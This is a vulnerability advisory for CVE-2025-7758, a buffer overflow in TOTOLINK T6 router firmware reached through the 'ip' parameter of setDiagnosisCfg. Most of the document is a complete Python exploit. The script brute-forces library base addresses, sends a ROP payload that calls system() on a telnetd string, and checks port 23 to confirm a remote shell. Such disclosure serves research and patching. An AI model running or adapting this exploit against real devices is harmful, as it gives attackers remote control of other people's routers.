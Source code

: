 # [CVE-2025-7758](https://vuldb.com/?id.316748)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to RCE. This vulnerability can be triggered through the topicurl `setDiagnosisCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `command` buffer can cause a buffer overflow due to the lack of length validation.

![](3/1.png)

`ip` is the param attacker control. But attecker need to pass the filter first.

![](3/2.png)

The `Validity_check` is looking for some char can be passed easy.

![](3/3.png)

`sprintf` doesn't check length of `ip`. When the attacker send a malicious `ip` param, the saved ret_address will be overwrite. Lead it to execute whatever the attacker want.

![](3/4.png)

# POC

```python
import requests, sys, threading, time, queue, random, struct, socket, os

MAX_ADDR = 2 ** 12
WORKER_AMOUNT = 10

START_TIME = 0

brute_queue = queue.Queue()

def worker(target_ip):
    while True:
        try:
            brute_val = brute_queue.get_nowait()
        except queue.Empty:
            break
        
        print("  [-] Trying 0x%x" % brute_val)

        url = f"http://{target_ip}/cgi-bin/cstecgi.cgi"

        brute_base = 0x77000000 
        telnetd_str_off = 0x5ba4

        libdl_brute_val = brute_val * 0x1000 + brute_base # base of /lib/libdl-0.9.33.so
        libdl_brute_val += 0x11c000

        libuClibc_brute_val = brute_val * 0x1000 + brute_base # base of /lib/libuClibc-0.9.33.so
        libuClibc_brute_val += 0x14000

        brute_telnet_str = libdl_brute_val + telnetd_str_off
        brute_gadget = libuClibc_brute_val + 0x29d14
        brute_system = libuClibc_brute_val + 0x35140

        temp = struct.pack("<I", brute_telnet_str)
        gadget = struct.pack("<I", brute_gadget)
        gadget_system = struct.pack("<I", brute_system)

        payload = b"A" * 135 + temp + gadget_system + gadget

        data = b'''
        {
            "topicurl":"setDiagnosisCfg",
            "ip":"%s",
            "num":"1"
        }
        ''' % (payload)

        requests.post(url, data=data)

def check_telnet(target_ip):
    global START_TIME
    print("[+] Check telnet port !!")
    while True:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(1)
            try:
                sock.connect((target_ip, 23))
                print(f"[+] Found !!")
                print(f"[+] Script run: {round(time.time() - START_TIME)}s")
                os._exit(0)
            except (socket.timeout, socket.error):
                continue
        time.sleep(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"[-] Usage: {sys.argv[0]} target_ip")
        exit(0)

    START_TIME = time.time()
    print(f"[+] Wish me luck !!")
    
    brutes = list(range(0x10, MAX_ADDR))
    random.shuffle(brutes)

    for brute in brutes:
        brute_queue.put(brute)
    
    threads = []
    for _ in range(WORKER_AMOUNT):
        t = threading.Thread(target=worker, args=(sys.argv[1],))
        t.start()
        threads.append(t)

    t2 = threading.Thread(target=check_telnet, args=(sys.argv[1],))
    t2.start()
    threads.append(t2)

    for t in threads:
        t.join()
```

[POC](https://www.youtube.com/watch?v=Qb_jk3ZUe7o) - Attacker execute `telnetd` by bruteforcing dynamic library base to achieve remote shell.
